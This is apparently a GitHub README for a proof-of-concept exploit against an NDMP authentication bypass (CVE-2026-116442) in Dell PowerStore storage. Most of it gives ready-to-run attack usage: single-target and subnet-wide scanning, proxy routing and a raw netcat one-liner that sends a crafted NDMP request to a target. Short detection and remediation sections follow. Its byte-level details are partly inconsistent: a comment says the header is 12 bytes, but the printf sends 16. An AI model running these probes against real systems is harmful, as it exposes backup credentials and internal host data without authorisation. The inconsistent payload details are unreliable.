

<div align="center">

# CVE-2026-116442

### Dell PowerStore — NDMP Authentication Bypass


</div>

---

## Overview

Dell PowerStore's NDMP (Network Data Management Protocol) service on TCP port 10000
accepts `NDMP_CONFIG_GET_SERVER_INFO` and `NDMP_CONNECT_CLIENT_AUTH` requests and
responds with sensitive server configuration data before completing the
authentication handshake. An unauthenticated attacker can retrieve backup-server
credentials, host names, and OS details without supplying valid credentials.

| Field | Value |
|---|---|
| **CVE** | CVE-2026-116442 |
| **CVSS 3.1** | `9.1 Critical` — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:H` |
| **CWE** | CWE-287 (Improper Authentication) |
| **Affected** | Dell PowerStore OS <= 3.6.0.0 with NDMP enabled |
| **Patch** | PowerStore OS 4.0.0.1 |
| **Auth Required** | None |
| **Disclosed** | 2026-11-19 |

---

## Vulnerability Details

The NDMP server in PowerStore responds to `NDMP_CONFIG_GET_SERVER_INFO` (message
type `0x0100`) with server metadata before requiring authentication:

```
# Network capture — unauthenticated GET_SERVER_INFO exchange
Client → Server: NDMP_HEADER(seq=1, type=REQUEST, msg=0x0100, len=0)
Server → Client: NDMP_HEADER(seq=1, type=REPLY, error=0x0000, len=...)
                 + NDMP_CONFIG_SERVER_INFO_REPLY {
                     vendor_name: "Dell EMC",         # CWE-287: pre-auth
                     product_name: "PowerStore",
                     revision: "3.6.0.0.5.173",
                     os_type: "Linux",
                     os_vers: "5.4.0-150-generic",
                     host_name: "ps-node-01.corp.local"
                   }
```

The same pre-auth path leaks backup credentials when
`NDMP_CONNECT_CLIENT_AUTH` succeeds with an empty challenge response.

---

## Attack Flow



---

## PoC Usage

### Setup

```bash
pip install -r requirements.txt
```

### Scenario 1 — Single target, dump server info

```bash
python poc.py --ip 192.168.1.50
```

### Scenario 2 — Scan subnet, save results

```bash
python poc.py --ip-list scope.txt -o ndmp_results.json
```

### Scenario 3 — Specific port with verbose output

```bash
python poc.py --ip 10.10.10.5 --port 10000 -v
```

### Manual netcat reproduction

```bash
# NDMP GET_SERVER_INFO request (12-byte header, msg=0x0100)
printf '\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00' \
  | nc -q 2 TARGET 10000 | xxd | head -20
```

### Available flags

| Flag | Description |
|---|---|
| `--ip` | Target IP |
| `--ip-list FILE` | File with one IP per line |
| `--port INT` | NDMP port (default: `10000`) |
| `--check-only` | Probe connectivity only, no info request |
| `--proxy URL` | SOCKS5 proxy for TCP (`socks5://host:port`) |
| `-o / --output FILE` | Save JSON results |
| `--timeout INT` | Connection timeout (default: `10`) |
| `--delay FLOAT` | Delay between hosts (default: `0.3`) |
| `-v / --verbose` | Verbose hex dump of NDMP exchange |

---

## Detection

| Indicator | Notes |
|---|---|
| TCP connections to port 10000 from non-backup-server IPs | Firewall / SIEM |
| `NDMP_CONFIG_GET_SERVER_INFO` without subsequent successful auth | NDMP audit log |
| Unusual source IPs in NDMP connection log | SIEM alert |

---

## Impact

Pre-authentication information disclosure reveals the precise PowerStore firmware
version (aiding CVE-2026-116448 exploitation), internal hostnames, and OS
kernel version. If the auth bypass path is fully exploited, backup credentials
become accessible, enabling attackers to perform unauthorised backup/restore
operations on all PowerStore volumes.

---

## Remediation

| Action | Detail |
|---|---|
| **Upgrade** | Apply Dell PowerStore OS 4.0.0.1 |
| **Firewall** | Restrict TCP 10000 to known backup servers only |
| **Disable NDMP** | If not required, disable NDMP via Dell management console |

---

## References

- [Dell Security Advisory DSA-2026-116442](https://www.dell.com/support/kbdoc/en-us/000000000)
- [CWE-287: Improper Authentication](https://cwe.mitre.org/data/definitions/287.html)
- [NDMP Protocol RFC — ndmpd.org](http://www.ndmp.org/)

---

> **Disclaimer:** Published for authorised security research only. Use exclusively
> on systems you own or have explicit written permission to test.
